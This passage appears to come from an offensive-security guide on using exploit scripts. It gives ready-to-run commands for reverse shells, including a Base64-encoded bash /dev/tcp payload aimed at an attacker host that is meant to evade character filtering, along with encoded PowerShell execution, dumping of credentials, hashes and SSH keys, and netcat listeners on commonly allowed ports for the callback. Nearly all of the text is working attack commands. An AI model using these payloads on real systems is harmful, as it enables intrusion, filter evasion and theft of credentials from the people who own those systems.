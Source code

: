# Then run exploit:
python3 exploit.py -t TARGET --lhost ATTACKER_IP --lport 4444 --shell
python3 exploit.py -u http://TARGET --callback ATTACKER_IP:4444
```

### **Pattern 3: Base64 Encoded Payloads**
```
# For environments with character filtering
payload='bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'
b64payload=$(echo "$payload" | base64 -w0)

# Deliver encoded payload
python3 exploit.py -t TARGET --exec "echo $b64payload | base64 -d | bash"
python3 exploit.py -t TARGET --cmd "powershell -enc $(echo 'IEX...' | base64 -w0)"
```

### **Pattern 4: Credential Extraction**
```
# Scripts that extract SSH keys, passwords, tokens
python3 exploit.py -t TARGET --extract-creds > creds.txt
python3 exploit.py -t TARGET --dump-hashes > hashes.txt

# Use extracted SSH keys
chmod 600 extracted_key.pem
ssh -i extracted_key.pem user@TARGET
```

## **5. Connection Verification and Troubleshooting**

### **Connection Success Indicators**
✅ **Netcat shows:** `Connection received on [TARGET_IP] [PORT]`  
✅ **Commands execute:** `whoami`, `id`, `hostname` work  
✅ **Stable connection:** No immediate drops or hangs  
✅ **Interactive capability:** Can run `python3 -c 'import pty; pty.spawn("/bin/bash")'`

### **Troubleshooting Failed Connections**
```
# Network monitoring during exploit
tcpdump -i tun0 -n host TARGET_IP

# Try alternative callback ports
nc -nvlp 80    # HTTP port often allowed
nc -nvlp 443   # HTTPS port often allowed  
nc -nvlp 53    # DNS port sometimes allowed
nc -nvlp 8080  # Alternative HTTP port
